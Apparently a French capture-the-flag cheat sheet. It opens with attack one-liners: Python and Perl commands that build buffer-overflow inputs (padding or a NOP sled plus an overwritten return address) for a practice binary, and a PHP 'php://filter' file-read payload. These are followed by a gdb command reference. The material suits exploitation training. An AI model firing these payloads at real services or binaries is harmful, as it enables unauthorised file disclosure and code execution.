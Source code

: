 CLI : python -c "print('a' * 50 + '\xef\xbe\xad\xde')" | ./exemple1

gdb: run <<< $(python2 -c "print('a' * 44 + '\xef\xbe\xad\xde')")


?page=php://filter/convert.base64-encode/resource=file1.php



perl -e 'print "\x90" x 52  . "\xb0\xd5\xff\xff"'

run $(perl -e 'print "\x90" x 52  . "\xb0\xd5\xff\xff"')


layout asm(or split if c)
ni, si, run, x/x, x/s, p/x, p/s $rsi+0x123

b * addresse           Point d’arrêt à l’adresse addresse du binaire.
b fichier:ligne        Point d’arrêt à une ligne du code c. Note : b ligne pour le faire sur le fichier source courant.
b fichier:fonction     Point d’arrêt à une fonction du code c. Note : b fonction pour le faire sur le fichier source courant.
delete i               Suppression du point d’arrêt d’indice i.

Pour faire avancer l’exécution, différentes commandes sont disponibles :
run                    Permet de charger le programme et de l’exécuter.
continue / c           Relance de l’exécution (qui s’arrêtera au premier point d’arrêt trouvé, ou à la fin du code).
step / s               Avance d’une ligne du code source (i.e. le code c).
next / n               Avance d’une ligne du code source (i.e. le code c) sans descendre dans les fonctions.
stepi / si             Avance d’une ligne du code désassemblé.
nexti / ni             Avance d’une ligne du code désassemblé sans descendre dans les fonctions.

p variable             Affichage du contenu d’une variable.
p/x $registre          Affichage en hexadécimal du contenu d’un registre.
p {variable,$registre} Affichage du contenu de plusieurs variables / registres.

Pour la mémoire, on utilise la commande x :
x/x *adresse           Affichage en hexadécimal du contenu d’une adresse.
x/x $registre          Affichage en hexadécimal du contenu d’une adresse à partir d’un registre.
x/16x $registre        Affichage en hexadécimal du contenu de 16 adresses successives.
